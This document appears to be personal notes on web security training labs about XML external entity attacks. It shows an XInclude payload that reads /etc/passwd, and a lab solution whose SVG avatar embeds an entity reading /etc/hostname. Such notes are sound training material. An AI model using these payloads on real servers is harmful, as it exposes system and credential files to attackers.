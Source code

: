 
> [!NOTE] XInclude
> XInclude: part of the XML specification > allows xml document to be created from sub components > to exploit --> reference xinclude name space and provide path to file you want to include --> /etc/passwd






![[Pasted image 20240803010354.png]]

- we use xinclude payload > be sure to leave a value after the parameter before the xinclude payload 

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```


---




# Lab: Exploiting XXE via image file upload


This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

#### Hint
The SVG image format uses XML.

#### Solution

1. Create a local SVG image with the following content:
    
    `<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`
2. Post a comment on a blog post, and upload this image as an avatar.
3. When you view your comment, you should see the contents of the `/etc/hostname` file in your image. Use the "Submit solution" button to submit the value of the server hostname.


## Start Lab



> [!NOTE] always look up technologies
> Look up --> Apache Batik library



1. look for places you can upload files
2. found -->  avatar upload profile pic 
3. create a blank SVG file
4. upload the blank SVG file to be sure it accepts it
5. insert malicious DTD in image, to see if application will process it
